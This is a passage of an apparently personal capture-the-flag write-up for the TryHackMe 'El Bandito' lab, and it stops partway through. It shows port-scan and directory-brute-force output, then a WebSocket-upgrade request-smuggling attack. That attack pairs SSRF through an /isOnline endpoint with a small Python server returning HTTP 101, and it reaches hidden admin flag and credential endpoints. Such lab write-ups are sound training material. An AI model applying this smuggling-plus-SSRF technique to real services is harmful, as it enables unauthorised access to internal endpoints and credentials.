description:
https://tryhackme.com/room/elbandito
El Bandito, the new identity of the infamous [Jack the Exploiter](https://tryhackme.com/jr/bandit), has plunged into the Web3 domain with a devious token scam. By exploiting the decentralized essence of blockchain, he crafted and circulated fraudulent tokens, deceiving investors and shaking the foundational trust of the decentralized finance DeFi ecosystem.  
As we embark on this new challenge, it becomes clear that the stakes are higher than ever. To succeed, we must infiltrate his network, decode his strategies, and anticipate his moves before he can strike again.
The mission has evolved: now, we must capture El Bandito. This requires a deep dive into the digital underworld, using cunning and technical skills to outmaneuver him and restore security.

```bash
└─$ nmap -p- -sS -sC -A -T4 10.80.158.213
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-31 04:45 EST
Nmap scan report for 10.80.158.213
Host is up (0.086s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5a:09:08:10:cb:8c:16:7c:aa:39:7d:47:ab:91:69:c1 (RSA)
|   256 c7:c7:15:b2:03:00:fc:8a:40:21:e2:1e:ad:01:be:5d (ECDSA)
|_  256 56:32:1b:4e:ae:74:f3:b2:79:9b:78:e9:ea:52:7d:07 (ED25519)
80/tcp   open  ssl/http El Bandito Server
|_ssl-date: TLS randomness does not represent time
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 NOT FOUND
|     Date: Wed, 31 Dec 2025 09:46:15 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: SAMEORIGIN
|     X-XSS-Protection: 1; mode=block
|     Feature-Policy: microphone 'none'; geolocation 'none';
|     Age: 0
|     Server: El Bandito Server
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Wed, 31 Dec 2025 09:45:26 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 58
|     Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: SAMEORIGIN
|     X-XSS-Protection: 1; mode=block
|     Feature-Policy: microphone 'none'; geolocation 'none';
|     Age: 0
|     Server: El Bandito Server
|     Accept-Ranges: bytes
|     Connection: close
|     nothing to see <script src='/static/messages.js'></script>
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Wed, 31 Dec 2025 09:45:27 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 0
|     Allow: OPTIONS, GET, HEAD, POST
|     Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: SAMEORIGIN
|     X-XSS-Protection: 1; mode=block
|     Feature-Policy: microphone 'none'; geolocation 'none';
|     Age: 0
|     Server: El Bandito Server
|     Accept-Ranges: bytes
|     Connection: close
|   RTSPRequest: 
|_    HTTP/1.1 400 Bad Request
|_http-server-header: El Bandito Server
| ssl-cert: Subject: commonName=localhost
| Subject Alternative Name: DNS:localhost
| Not valid before: 2021-04-10T06:51:56
|_Not valid after:  2031-04-08T06:51:56
631/tcp  open  ipp      CUPS 2.4
|_http-server-header: CUPS/2.4 IPP/2.1
|_http-title: Forbidden - CUPS v2.4.12
8080/tcp open  http     nginx
|_http-title: Site doesn't have a title (application/json;charset=UTF-8).
|_http-favicon: Spring Java Framework
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.95%T=SSL%I=7%D=12/31%Time=6954F146%P=x86_64-pc-linux-gnu
SF:%r(GetRequest,1E5,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Wed,\x2031\x20Dec
SF:\x202025\x2009:45:26\x20GMT\r\nContent-Type:\x20text/html;\x20charset=u
SF:tf-8\r\nContent-Length:\x2058\r\nContent-Security-Policy:\x20default-sr
SF:c\x20'self';\x20script-src\x20'self';\x20object-src\x20'none';\r\nX-Con
SF:tent-Type-Options:\x20nosniff\r\nX-Frame-Options:\x20SAMEORIGIN\r\nX-XS
SF:S-Protection:\x201;\x20mode=block\r\nFeature-Policy:\x20microphone\x20'
SF:none';\x20geolocation\x20'none';\r\nAge:\x200\r\nServer:\x20El\x20Bandi
SF:to\x20Server\r\nAccept-Ranges:\x20bytes\r\nConnection:\x20close\r\n\r\n
SF:nothing\x20to\x20see\x20<script\x20src='/static/messages\.js'></script>
SF:")%r(HTTPOptions,1CB,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Wed,\x2031\x20
SF:Dec\x202025\x2009:45:27\x20GMT\r\nContent-Type:\x20text/html;\x20charse
SF:t=utf-8\r\nContent-Length:\x200\r\nAllow:\x20OPTIONS,\x20GET,\x20HEAD,\
SF:x20POST\r\nContent-Security-Policy:\x20default-src\x20'self';\x20script
SF:-src\x20'self';\x20object-src\x20'none';\r\nX-Content-Type-Options:\x20
SF:nosniff\r\nX-Frame-Options:\x20SAMEORIGIN\r\nX-XSS-Protection:\x201;\x2
SF:0mode=block\r\nFeature-Policy:\x20microphone\x20'none';\x20geolocation\
SF:x20'none';\r\nAge:\x200\r\nServer:\x20El\x20Bandito\x20Server\r\nAccept
SF:-Ranges:\x20bytes\r\nConnection:\x20close\r\n\r\n")%r(RTSPRequest,1C,"H
SF:TTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(FourOhFourRequest,26C,"HT
SF:TP/1\.1\x20404\x20NOT\x20FOUND\r\nDate:\x20Wed,\x2031\x20Dec\x202025\x2
SF:009:46:15\x20GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nCon
SF:tent-Length:\x20207\r\nContent-Security-Policy:\x20default-src\x20'self
SF:';\x20script-src\x20'self';\x20object-src\x20'none';\r\nX-Content-Type-
SF:Options:\x20nosniff\r\nX-Frame-Options:\x20SAMEORIGIN\r\nX-XSS-Protecti
SF:on:\x201;\x20mode=block\r\nFeature-Policy:\x20microphone\x20'none';\x20
SF:geolocation\x20'none';\r\nAge:\x200\r\nServer:\x20El\x20Bandito\x20Serv
SF:er\r\nConnection:\x20close\r\n\r\n<!doctype\x20html>\n<html\x20lang=en>
SF:\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</h1>\n<p>The\x20
SF:requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20server\.\x20If\
SF:x20you\x20entered\x20the\x20URL\x20manually\x20please\x20check\x20your\
SF:x20spelling\x20and\x20try\x20again\.</p>\n");
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 3 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

searching for directories:
```bash
 feroxbuster -u 'http://10.80.158.213:8080' -w /usr/share/seclists/Discovery/Web-Content/big.txt
 403      GET        7l        9w      146c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        1l        4w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        1l      543w    22223c http://10.80.158.213:8080/assets/index-BdQi6zVF.css
200      GET        0l        0w        0c http://10.80.158.213:8080/assets/
200      GET       43l     6097w   207195c http://10.80.158.213:8080/assets/index-6i4x9C9e.js
200      GET       18l       36w      557c http://10.80.158.213:8080/
200      GET        0l        0w        0c http://10.80.158.213:8080/assets
500      GET        1l        3w       88c http://10.80.158.213:8080/error
200      GET        1l        4w     1738c http://10.80.158.213:8080/favicon.ico
200      GET        1l        1w      150c http://10.80.158.213:8080/health
200      GET        1l        1w        2c http://10.80.158.213:8080/info
200      GET        1l       66w     4499c http://10.80.158.213:8080/mappings
200      GET        1l        1w        8c http://10.80.158.213:8080/token
[####################] - 77s    40971/40971   0s      found:11      errors:0      
[####################] - 77s    20482/20482   267/s   http://10.80.158.213:8080/ 
[####################] - 77s    20482/20482   268/s   http://10.80.158.213:8080/assets/                                                                                                                                                                                                                          
```
Interesting findings:
http://10.80.158.213:8080/token returns website with number: **2713.387**
http://10.80.158.213:8080/mappings - here we have list of available endpoints:

http://10.80.158.213:8080/health

On main website I checked all links but **/burn.html** has some form so it's most interesting place.
In console we can see that there is some websocket but not open

I intercepted request to /burn.html in burp to play with it:


Maybe we could smuggle some requests to access forbidden endpoints we have listed in: http://10.80.158.213:8080/mappings ?


I will try to upgrade request to websocket as it was described: https://tryhackme.com/room/wsrequestsmuggling and smuggle GET to access a **/admin-flag** or **/admin-creds** endpoint
I've sent request to burp repeater, disabled in settings "Update content-length", and added headers:
Sec-WebSocket-Version: 123
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

Response is 403, so this is not enough.
In mappings we have **/isOnline** endpoint and here we have some service status based on information from this endpoint:

We have something can help us in our lesson: https://tryhackme.com/room/wsrequestsmuggling under **"Leveraging SSRF"** topic.
I copied to my kali linux python script from tryhackme lesson to setup server:

```python
```python
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 1:
    print("""
Usage: {} 
    """.format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.protocol_version = "HTTP/1.1"
       self.send_response(101)
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```
I started server with bash command:
```bash
python3 server.py 5555
```
I intercepted using burp request to **/isOnline** endpoint:
and added headers:
```bash
Sec-WebSocket-Version: 123
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==
```
and set url parameter to my MY_SERVER_IP:5555

we received **101** response with **first flag!** (Remember about adding enter on the end of request - I always forget about it)
Flag contains some declination... hmm.. maybe it's place of our pirate from task description, who knows? In google maps this declination shows river in Norway.
We can ask now for **/admin-creds**:



username: ***REDACTED***
password: ***REDACTED***
we have endpoint:
https://elbandito.thm:80/login
but method get is not allowed here, so I intercepted it in burp, changed to POST:


I looged in using password and user from **/admin-creds** endpoint. 
now I have access to some chat:

I intercepted message "test" I've sent to Jack:

it's using **HTTP/2** and I think it's sign that we need to check what was in our lessons about it: https://tryhackme.com/room/http2requestsmuggling

we can check if downgrate to HTTP/1.1 is possible:
